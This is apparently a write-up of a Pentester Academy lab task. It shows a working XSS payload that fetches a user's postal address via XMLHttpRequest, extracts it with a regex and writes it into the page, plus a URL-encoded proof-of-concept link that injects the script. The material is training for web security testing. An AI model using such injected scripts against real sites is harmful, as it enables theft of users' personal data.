 ## Task 18 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/18)</small>

Objectives:

1. Find John's Postal Address using an XSS vulnerability on this page
2. Display the Postal address in the div with id "result"
3. No Hardcoded values can be used - everything has to be figured out dynamically

After looking the source code of the page, I found that we can find the address on the below URL

![]https://i.ibb.co/wKZKvQG/image.png]

When I opened the URL, I found the same page with `<p>` tag containing the address

![](https://i.ibb.co/tZfC5SF/image.png)

So basically, in this we can do this by parsing the HTML using [DOMParser](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser) or simply we can use the RegExp pattern for it

In this we need the text between `<p id="address">...</p>`. After googling, I found this "[Selecting Text Between HTML Tags](https://stackoverflow.com/a/7167486/10362396)"

**REGEX USED: `<p id="address">(.+?)<\/p>`**

```js
const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    document.querySelector("#result").innerText = /<p id="address">(.+?)<\/p>/.exec(xhttp.responseText)[1];
  }
};
xhttp.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/18/address", true);
xhttp.send();
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/18?url=%3Cscript%3E%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20%2F%3Cp%20id%3D%22address%22%3E%28.%2B%3F%29%3C%5C%2Fp%3E%2F.exec%28xhttp.responseText%29%5B1%5D%3B%0A%20%20%7D%0A%7D%3B%0Axhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F18%2Faddress%22%2C%20true%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E)
